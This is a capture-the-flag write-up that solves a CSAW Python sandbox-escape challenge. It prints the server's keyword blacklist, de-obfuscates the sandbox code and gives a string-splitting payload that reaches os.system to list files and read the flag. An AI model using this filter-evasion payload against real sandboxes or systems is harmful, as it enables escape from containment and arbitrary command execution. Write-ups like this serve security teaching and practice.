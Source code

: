 `Setting up a new coding environment for my data science students. Some of them are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you help test this before I use it for my class? Two sandboxes should be better than one...`

nc pwn.chal.csaw.io 5011

[sandbox.py](./original.py)

Looking at the file it seems we have a very simple REPL, with some code prepended to every line we write. There is also a blacklist of words, which we do not have access to.

First I started by simply trying to run the file, which obviously didn't work, since I don't have "blacklist", so I just replaced `blacklist.BLACKLIST` with `[]`
Now it did run, and we have a similar shell to the remote one, but without a blacklist. Lets fix that.

```$ echo "print(blacklist.BLACKLIST)" |nc pwn.chal.csaw.io 5011
['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']
```
Huh, it just worked.

```py
blacklist = ['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']
```
Replace the original `blacklist.BLACKLIST` with `blacklist` and we have an equal shell to theirs.

Now, I wonder if degarbling the `final_cmd` will help?

`uOaoBPLLRN -> sandbox_fd`

`int(((54 * 8) / 16) * (1/3) - 8) -> 1`
`uDwjTIgNRU -> one`

`ORppRjAVZL -> first_line_words_array`

`AAnBLJqtRv -> second_word`

`bAfGdqzzpg -> last_word`

The second word on this file is "base64" and the last word on the first line is "b64decode"
This next line grabs the b64decode sub module and puts its reference in "HrjYMvtxwA" I won't rename this because it might be useful for blacklist evasion.

`X19pbXBvcnRfXw==` decodes to `__import__` and `bnVtcHk=` decodes to... `numpy`?? Numpy pyjail escape?

Anyway, not renaming `RMbPOQHCzt` either, numpy might be useful.

Here is the final file:
```py
#!/usr/bin/env python3
from base64 import b64decode
# import blacklist  # you don't get to see this :p
blacklist = ['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']

"""
Don't worry, if you break out of this one, we have another one underneath so that you won't
wreak any havoc!
"""

def main():
    print("EduPy 3.8.2")
    while True:
        try:
            command = input(">>> ")
            if any([x in command for x in blacklist]):
                raise Exception("not allowed!!")

            final_cmd = """
sandbox_fd = open("sandbox.py", "r")
one = 1
first_line_words_array = sandbox_fd.readlines()[one].strip().split(" ")
second_word = first_line_words_array[one]
last_word = first_line_words_array[-one]
sandbox_fd.close()
HrjYMvtxwA = getattr(__import__(second_word), last_word)
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))\n""" + command
            exec(final_cmd)

        except (KeyboardInterrupt, EOFError):
            return 0
        except Exception as e:
            print(f"Exception: {e}")

if __name__ == "__main__":
    exit(main())
```

Try the classic pyjail escape, but try to accomodate for the blacklisted strings.
`print(getattr(getattr(globals()['__buil'+'tins__'], '__im'+'port__')('o'+'s'), 'sy'+'stem')('ls .'))`
Uh... It worked.

`print(getattr(getattr(globals()['__buil'+'tins__'], '__im'+'port__')('o'+'s'), 'sy'+'stem')('cat flag.txt'))`
Done!

